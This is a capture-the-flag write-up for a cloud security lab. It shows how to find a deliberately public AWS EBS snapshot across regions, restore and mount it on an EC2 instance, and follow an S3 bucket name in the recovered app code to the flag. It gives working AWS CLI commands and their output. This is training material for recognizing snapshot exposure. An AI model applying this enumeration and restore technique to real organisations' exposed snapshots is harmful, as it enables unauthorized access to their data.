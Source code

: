 # Challenge 2

We are back with another challenge where our developer team made a snapshot called challenge-2 public. Seems like this was a bad mistake!

Can you get the flag to prove the severity of this mistake?

---

# Solution:
Whilst we know a snapshot is made public and it's name, we don't know the region so will need to iterate over all regions.

## Step 1: Find the snapshot
Query AWS for all the regions
```
aws ec2 describe-regions

#Save them to a file
regions.txt
eu-north-1
ap-south-1
eu-west-3
eu-west-2
eu-west-1
ap-northeast-3
ap-southeast-2
eu-central-1
us-east-1
us-east-2
us-west-1
us-west-2
```

Now listing all public snapshots that are restorable by all users.
Note: This is slow as it returns all the snapshots then you are cutting it down with grep.
```
for i in $(cat regions.txt); do echo $i; aws ec2 describe-snapshots --restorable-by-user-ids all --region $i | grep -C 10 -i 'challenge-2';done


eu-north-1
ap-south-1
eu-west-3
eu-west-2
eu-west-1
ap-northeast-3
ap-southeast-2
eu-central-1
us-east-1
us-east-2
            "Encrypted": false,
            "OwnerId": "895557238572",
            "Progress": "100%",
            "SnapshotId": "snap-0a07ebead239c8b60",
            "StartTime": "2022-02-15T16:53:24.484000+00:00",
            "State": "completed",
            "VolumeId": "vol-ffffffff",
            "VolumeSize": 200
        },
        {
            "Description": "challenge-2 @ SecurityLabs",
            "Encrypted": false,
            "OwnerId": "584358494719",
            "Progress": "100%",
            "SnapshotId": "snap-012f8a39fea09c32e",
            "StartTime": "2022-02-15T15:20:14.139000+00:00",
            "State": "completed",
            "VolumeId": "vol-0dc594dc7aeec81cf",
            "VolumeSize": 8
        },
        {
us-west-1
us-west-2

```

---


## Step 2: Read the snapshot
In order to view the snapshot, we need to meet a few conditions,
- An AWS account with privileges to create key-pairs, ec2 instances and volumes
- A volume in the same availability zone as the snapshot to attach it too
- An ec2 instance to attach the volume too
- A means to access that ec2 instance to explore the volume (ssh)
- A security group that allows SSH access

Create the key pair
```
aws ec2 create-key-pair --region us-east-2 --key-name ctf --query 'KeyMaterial' --output text > ~/.ssh/ctf.pem
```
Create an instance using that key pair
```
aws ec2 run-instances --region us-east-2 --image-id ami-0fb653ca2d3203ac1 --key-name ctf --security-group-ids sg-<redacted> --instance-type t2.micro --output table
```
The image id we are using ami-0fb653ca2d3203ac1 is a amazon ubuntu build.
The instance type should be eligible for the free tier
Key name should be that off the key pair we just made
The security group (sg) is just an existing one in my AWS account that allows ssh access.

From the output you need to grab the instance-id, public IP and availability zone
<..>
||  InstanceId            |  i-0ffc8c8e27e057a22                          ||
|||  AvailabilityZone                      |  us-east-2b                 |||
<..>

If the public IP doesn't appear in the initial output you can describe-instances to get it as it takes awhile sometimes
```
aws ec2 describe-instances --region us-east-2
<...>
3.<redacted>.4
<..>
```
Test the connection
ssh ubuntu@3.<redacted>4 -i ~/.ssh/ctf.pem

Create the volume
```
aws ec2 create-volume --snapshot-id snap-012f8a39fea09c32e --availability-zone us-east-2b --region us-east-2
{
    "AvailabilityZone": "us-east-2b",
    "CreateTime": "2022-02-16T04:51:51+00:00",
    "Encrypted": false,
    "Size": 8,
    "SnapshotId": "snap-012f8a39fea09c32e",
    "State": "creating",
    "VolumeId": "vol-0726ea352c04b36ab",
    "Iops": 100,
    "Tags": [],
    "VolumeType": "gp2",
    "MultiAttachEnabled": false
}
```

Attach the volume to the EC2 instance
```
aws ec2 attach-volume --volume-id vol-0726ea352c04b36ab --instance-id i-0ffc8c8e27e057a22 --device /dev/sdj --region us-east-2

{
    "AttachTime": "2022-02-16T04:53:02.294000+00:00",
    "Device": "/dev/sdf",
    "InstanceId": "i-0ffc8c8e27e057a22",
    "State": "attaching",
    "VolumeId": "vol-0726ea352c04b36ab"
}
```

Mount the volume inside the EC2 InstanceId
ssh ubuntu@3.<redacted>4 -i ~/.ssh/ctf.pem

Use lsblk to find the volume to mount
```
sudo lsblk
NAME    MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0     7:0    0   25M  1 loop /snap/amazon-ssm-agent/4046
loop1     7:1    0 55.5M  1 loop /snap/core18/2253
loop2     7:2    0 61.9M  1 loop /snap/core20/1242
loop3     7:3    0 67.2M  1 loop /snap/lxd/21835
loop4     7:4    0 42.2M  1 loop /snap/snapd/14066
xvda    202:0    0    8G  0 disk
└─xvda1 202:1    0    8G  0 part /
xvdj    202:144  0    8G  0 disk
└─xvdj1 202:145  0    8G  0 part
```

I'm just looking for the one that isn't already mounted, so xvdj1
```
mkdir /mnt/ctf/
sudo mount /dev/xvdj1 /mnt/ctf/
cd /mnt/ctf/
```

## Find the flag
The flag itself is pretty hidden
However you find a python app
```
root@ip-172-31-19-153:/mnt/ctf/srv/app# cat app.py
import boto3
from flask import Flask,request

@app.route('/getFlag',methods=['GET'])
def query_flag():
    client = boto3.client('s3')
    client.download_file('0d0ec394ec2f5302ae2995217909f82d', '0d0ec394ec2f5302ae2995217909f82d.txt', 'flag.txt')

The boto s3 client uses the syntax bucketname, filename, output file name
```

We can directly query the bucket to download the flag
```
aws s3 cp s3://0d0ec394ec2f5302ae2995217909f82d/0d0ec394ec2f5302ae2995217909f82d.txt .

cat 0d0ec394ec2f5302ae2995217909f82d.txt
<..>
DM us the flag at @securitylabs_ on twitter to verify it!
```

---


Delete things so we don't get a big bill
```
aws ec2 terminate-instances --instance-ids i-0ffc8c8e27e057a22 --region us-east-2
{
    "TerminatingInstances": [
        {
            "CurrentState": {
                "Code": 32,
                "Name": "shutting-down"
            },
            "InstanceId": "i-0ffc8c8e27e057a22",
            "PreviousState": {
                "Code": 16,
                "Name": "running"
            }
        }
    ]
}

aws ec2 delete-volume --volume-id vol-0726ea352c04b36ab --region us-east-2
```
